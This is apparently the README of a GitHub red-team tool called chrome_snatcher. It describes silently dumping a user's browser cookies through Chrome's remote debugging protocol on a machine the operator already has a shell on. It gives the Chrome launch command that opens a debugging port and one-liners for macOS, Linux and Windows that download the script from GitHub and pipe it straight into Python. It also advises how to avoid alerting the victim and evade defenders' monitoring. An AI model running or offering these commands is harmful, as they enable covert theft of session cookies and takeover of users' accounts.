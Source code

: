 # chrome_snatcher
Chrome (headless) cookie snatcher

For use in Red Team ops where you have a shell on a user's machine and want to (silently) dump their cookies, without needing to compromise their keychain on OSX (and risk alerting the user/setting off alarm bells).  (Ab)uses Chrome Debugger Protocol in headless mode to load up a site (and/or potentially their most recent browsing session so you can see what they were looking at, etc, although can be modified as needed), start crumb-snatchin', and obtain all of the l3wtz.  

***Also, additional caveat:  Chrome Debugger Protocol is verrry cantankerous, so it may not cooperate immediately, but luckily it's not noisy to start and stop it.  If the user already has Chrome open, it's important to SKIP the --headless arg, and not only is it generally is more cooperative, but if it's in headless mode and the user tries to OPEN Chrome, it will bug out and not open, which will likely lead them to restart their machine, log out, etc, which may cost you an active session.  Caveat emptor.

No additional privilege needed to run it beyond what the user has.

Usage:

`/path/to/user's/chrome --headless=new --remote-debugging-port=9222 --remote-allow-origins="*" --no-sandbox --disable-gpu --profile-directory="Profile <x>" (In my case it wasn't 0 or 1, so you might have to do some additional recon/trial/error here)`

MacOSx/Linux:
`curl -s https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py | python3`

Windows (potentially risky method for deployment as many if not most Blue/IR watches POSH like a hawk, probably better to use your agent/C2 infra):
`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py" -UseBasicParsing | Select-Object -ExpandProperty Content | python -`

Enjoy!
